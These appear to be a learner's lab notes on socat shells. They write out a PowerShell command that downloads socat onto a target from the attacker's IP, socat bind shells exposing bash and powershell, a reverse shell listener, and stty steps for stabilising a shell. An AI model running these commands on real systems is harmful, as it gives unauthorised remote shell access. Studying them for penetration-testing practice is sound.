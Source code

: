 		first we transfer socat static compiled binary to the target using apache/python server and wget 

		for windows file transfer Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

		With any of the above techniques, it's useful to be able to change your terminal tty size.

		 it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

		  run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:

		  Next, in your reverse/bind shell, type in:

		stty rows <number>

		and

		stty cols <number>

		Filling in the numbers you got from running the command in your own terminal.


--------

Socat Continued : 

The easiest way to think about socat is as a connector between two points.

it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

" socat TCP-L:<port> - "

Bind Shells

On a Linux target we would use the following command:

socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L:<PORT> EXEC:powershell.exe,pipes

	We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

socat TCP:<TARGET-IP>:<TARGET-PORT> -



socat is very good for linux reverse shells that are fully stablized 
